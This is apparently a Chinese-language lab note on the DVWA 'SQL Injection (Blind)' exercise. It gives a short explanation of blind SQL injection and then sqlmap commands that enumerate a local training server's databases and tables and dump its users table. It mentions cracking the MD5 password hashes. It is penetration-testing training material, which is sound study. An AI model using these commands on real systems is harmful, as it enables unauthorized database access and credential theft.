



## SQL Injection (Blind)

當攻擊者執行SQL注入攻擊時，Server會response來自資料庫錯誤訊息，報告SQL語法不正確，SQL盲注入是指攻擊者進行攻擊時得不到有用報錯訊息，而是開發人員指定的通用介面。
但還是有辦法讓攻擊手透過一系列真假問題來竊取數據

解法：
使用 Sqlmap 攻擊

https://feifei.tw/security-tool-sqlmap/

使用SQLmap的基本步驟如下：

a. 識別目標URL
b. 分析目標網站的漏洞和資料庫結構
c. 使用不同的技術和參數進行注入測試
d. 通過dumping和爆破等方式獲取目標資料庫中的資料
e. 利用out-of-band連接等方式進一步擴大攻擊面
f. 創建報告並整理測試結果。

### Medium Level / Low Level 打法一樣

攔截



POST 打法

```
    ./sqlmap.py -u "http://10.0.2.15/dvwa/vulnerabilities/sqli_blind/" --cookie="security=medium; PHPSESSID=k1p4nef9t437n12dlf1ml2cspa" --data="id=1&Submit=Submit" -p id  --dbs
```


兩個DB    

```
./sqlmap.py -u "http://10.0.2.15/dvwa/vulnerabilities/sqli_blind/" --cookie="security=medium; PHPSESSID=k1p4nef9t437n12dlf1ml2cspa" --data="id=1&Submit=Submit" -p id  -D dvwa --tables --batch --threads 5
```
thread : 加快處理
batch : 掃描過程不要求使用者輸入
打出兩個資料表




```
    ./sqlmap.py -u "http://10.0.2.15/dvwa/vulnerabilities/sqli_blind/" --cookie="security=medium; PHPSESSID=k1p4nef9t437n12dlf1ml2cspa" --data="id=1&Submit=Submit" -p id  -D dvwa -T users --batch --threads 5 --dump

```

--dump : 顯示資料表內容

打出密碼(md5順便解密)

